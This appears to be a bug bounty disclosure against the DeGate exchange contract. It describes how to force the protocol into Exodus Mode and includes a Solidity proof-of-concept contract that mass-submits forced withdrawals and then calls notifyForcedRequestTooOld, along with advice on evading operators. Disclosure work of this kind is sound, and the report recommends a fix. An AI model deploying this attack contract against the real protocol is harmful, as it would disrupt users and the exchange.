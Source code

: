 
# Exodus Mode Force

Submitted on Dec 4th 2023 at 06:24:17 UTC by @lordagnew for [Boost | DeGate](https://immunefi.com/bounty/boosteddegatebugbounty/)

Report ID: #26509

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0x9C07A72177c5A05410cA338823e790876E79D73B#code

Impacts:
- Force DeGate into Exodus Mode
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Bug Description
To Force DeGate into Exodus Mode

First, Parse Calldata of all submitBlock transactions in the DeGate smart contract.

Write a script to automate the calling of notifyForcedRequestTooOld for accounts that meet the specific criteria to find available ones to help and make it even easier to force.

Start creating accounts over time to make enough to be able to cause Exodus Mode. (I know it is a lot of accounts to make but not hard at all)

After you force Degate into Exodus Mode you can start Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Impact
This is an extremely bad impact. Would show the project in a terrible light because the entire project would shut down and would cause big problems for people and anyone who is invested in it. Anyone who is a competitor could do this to make there own project look better/safer.
## Risk Breakdown
Difficulty to Exploit: Easy just would take some time but still easy





## Proof of concept
First thing you would need to do is make enough accounts with wallets that have a very small amount of money in them because you will get the money back so no lose in revenue at all for this part. Yes, you would need to make a TON of accounts but that is why you would use a program to create these accounts which is something that already exists.
Secondly, when all of these accounts are ready, you Parse Calldata of all submitBlock transactions in the DeGate smart contract and you do this so you can look for other accounts that might be able to help you with this because ANYONE can call this for any account which is a problem.
Next, Write a script to automate the calling of notifyForcedRequestTooOld for accounts that meet the specific criteria to find available ones to help and make it even easier to force. I know the price of .01 eth but I can promise you that if a competitive project sees profit by taking out Degate you do not want that option available.

Here is the code for this
// SPDX-License-Identifier: MIT
pragma solidity >=0.6.12 <0.9.0;

interface IExchangeV3 {
    function forceWithdraw(address from, address token, uint32 accountID) external;
    function notifyForcedRequestTooOld(uint32 accountID, address token) external;
}

contract ExodusModeSimulator {
    IExchangeV3 public exchangeV3;
    address public owner;

    // 
    event ForceWithdrawInitiated(address indexed sender, address indexed token, uint32 indexed accountID);
    event ExodusModeTriggered(uint32 indexed accountID, address indexed token);

    // Mapping to store withdrawal timestamps
    mapping(uint32 => mapping(address => uint)) public withdrawalTimestamps;

    // MAX_AGE_FORCED_REQUEST_UNTIL_WITHDRAW_MODE is set to 15 days in seconds
    uint constant MAX_AGE_FORCED_REQUEST_UNTIL_WITHDRAW_MODE = 15 * 24 * 60 * 60;

    constructor(address _exchangeV3Address) {
        owner = msg.sender;
        exchangeV3 = IExchangeV3(_exchangeV3Address);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "Only the owner can call this function");
        _;
    }

    function simulateForcedWithdrawals(address[] calldata tokens, uint32[] calldata accountIDs) external onlyOwner {
        require(tokens.length == accountIDs.length, "Input arrays must be the same length");
        
        for (uint i = 0; i < tokens.length; i++) {
            exchangeV3.forceWithdraw(msg.sender, tokens[i], accountIDs[i]);
            withdrawalTimestamps[accountIDs[i]][tokens[i]] = block.timestamp;
            emit ForceWithdrawInitiated(msg.sender, tokens[i], accountIDs[i]);
        }
    }

    function simulateMassForcedWithdrawals(address token, uint32 startAccountID, uint32 numberOfAccounts) external onlyOwner {
        for (uint32 i = 0; i < numberOfAccounts; i++) {
            uint32 accountID = startAccountID + i;
            exchangeV3.forceWithdraw(msg.sender, token, accountID);
            withdrawalTimestamps[accountID][token] = block.timestamp;
            emit ForceWithdrawInitiated(msg.sender, token, accountID);
        }
    }

    function triggerExodusMode(uint32 accountID, address token) external onlyOwner {
        uint timestamp = withdrawalTimestamps[accountID][token];
        require(timestamp != 0, "No withdrawal request for this account and token");
        require(block.timestamp >= timestamp + MAX_AGE_FORCED_REQUEST_UNTIL_WITHDRAW_MODE, "Withdrawal request not old enough");

        exchangeV3.notifyForcedRequestTooOld(accountID, token);
        emit ExodusModeTriggered(accountID, token);
    }

}


To help understand this and how it will work this will make it VERY easy to push accounts through and you can push them through a lot at a time or you can slowly push the accounts out so that it is not caught by the operators. Also, this contract puts the 15 days into account. This is a very bad thing and I really do recommend fixing this or at least putting something in the contract so ONLY the owner can make a call for any account and not let that be open to anyone because that would immediately fix it.

Lastly, When Exodus mode is forced every account will be able to have all there money taken out of the contract and this would cause serious Griefing for everyone involved because they would all have to repay the gas fees for putting it back into the contract and a huge loss of respect for the project.